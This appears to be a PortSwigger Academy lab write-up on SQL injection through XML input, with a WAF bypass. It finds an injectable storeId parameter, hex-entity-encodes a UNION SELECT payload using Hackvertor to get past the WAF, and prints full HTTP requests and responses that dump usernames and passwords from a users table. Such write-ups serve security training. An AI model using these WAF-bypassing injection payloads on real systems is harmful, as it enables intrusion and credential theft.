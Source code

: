 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4185a547-fb59-4522-8043-a5954cf42cc4)


## Solution :

We can perform SQL injection attacks using any controllable input that is processed as a SQL query by the application. For example, some websites take input in **JSON or XML** format and use this to query the database.

These different formats may even provide alternative ways for you to obfuscate attacks that are otherwise blocked due to WAFs and other defense mechanisms. Weak implementations often just look for common SQL injection keywords within the request, so you may be able to bypass these filters by simply encoding or escaping characters in the prohibited keywords. For example, the following XML-based SQL injection uses an XML escape sequence to encode the S character in SELECT: 

```xml
<stockCheck>
    <productId>
        123
    </productId>
    <storeId>
        999 &#x53;ELECT * FROM information_schema.tables
    </storeId>
</stockCheck>
```

This will be decoded server-side before being passed to the SQL interpreter. 


----------------------------

### Identify the vulnerability -

There is a sql injection vulnerability in the `check stock` feature .

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/101e4bd9-2379-47c3-812c-ea601d8d222f)

**Request**

```http
POST /product/stock HTTP/1.1
Host: 0a1400c5031f6b1380380ee100b30043.web-security-academy.net
Cookie: session=36761REtmfgIxvy0ZIbkCEGBqqe9OGFG
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a1400c5031f6b1380380ee100b30043.web-security-academy.net/product?productId=12
Content-Type: application/xml
Content-Length: 108
Origin: https://0a1400c5031f6b1380380ee100b30043.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
 <stockCheck>
  <productId>12</productId>
  <storeId>1</storeId>
 </stockCheck>
```
**Response**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/bb988b34-bbfc-40fc-b868-46b18cc2b6fb)


There are 2 xml tags where we can inject our sql injection payload ie `productID` & `StoreId`.

When testing sql injection query in `productID`,  we get a response like this

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4e2496e2-3a72-4514-8288-acd314131b65)

When testing sql injection query in `storeID`,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/2317ab5d-b0e9-421b-8599-5759f7f00990)

Both show the same **403 Forbidden error**

Why is it getting blocked?

```
A web application firewall (WAF) will block requests that contain obvious signs of a SQL injection attack. You'll need to find a way to obfuscate your malicious query to bypass this filter. We recommend using the Hackvertor extension to do this. 
```

So we need to bypas WAF and execute our sql payload.

### Bypass WAF - 

We need to Obfuscate out xml payload inorder to bypass WAF. As per lab description we'll use **Hackvertor** for this

> Hackvertor is a **tag-based conversion tool** that supports various escapes and encodings including HTML5 entities, hex, octal, unicode, url encoding etc. 
> It uses **XML-like tags** to specify the type of encoding/conversion used.

NOw select the payload -> Right click -> Extensions -> Hackvertor -> Encode -> Hex entities

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4a369c2a-2994-4aca-bd0b-bccaf97d8fc2)

Now the request containing the highlighted payload is modified 

```http
POST /product/stock HTTP/2
Host: 0a1400c5031f6b1380380ee100b30043.web-security-academy.net
Cookie: session=36761REtmfgIxvy0ZIbkCEGBqqe9OGFG
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a1400c5031f6b1380380ee100b30043.web-security-academy.net/product?productId=12
Content-Type: application/xml
Content-Length: 127
Origin: https://0a1400c5031f6b1380380ee100b30043.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
 <stockCheck>
  <productId>9 </productId>
  <storeId><@hex_entities>1 UNION SELECT null<@/hex_entities></storeId>
 </stockCheck>
```
**Response**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/335a1b47-420a-4c6b-b7fc-88497b0035a5)

So we can now confirm that `storeID` parameter is indeed vulnerable & we bypassed the WAF by encoding our payload with hex entities.

> ProductID parameter doesn't seem to be vulnerable since it didn't return NULL value in response

### Craft payload -

Our payload to retrieve the admin user's credentials from users table,

```sql
UNION SELECT username || '~' || password FROM users
```

After encoding it with hex entities by using hackvertor,

**Response**

```
POST /product/stock HTTP/2
Host: 0a08008903b8f2558169219f00cf00ed.web-security-academy.net
Cookie: session=lr1cmtwOzGbHOxkXSLEUkZKKyVFIP2u4
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a08008903b8f2558169219f00cf00ed.web-security-academy.net/product?productId=9
Content-Type: application/xml
Content-Length: 176
Origin: https://0a08008903b8f2558169219f00cf00ed.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
 <stockCheck>
  <productId>9 </productId>
  <storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities>
</storeId>
 </stockCheck>
 ```
 
 
**Response**

```html
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 100

carlos~td28xlz7rzclt1lnzoq1
812 units
wiener~m0dg0ikxf86tq3lmqmit
administrator~wtw26hhafjjaybqu0z88
```
Now login as admin to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/dd5dd87d-4741-4cde-87fc-95654e4d0ed0)



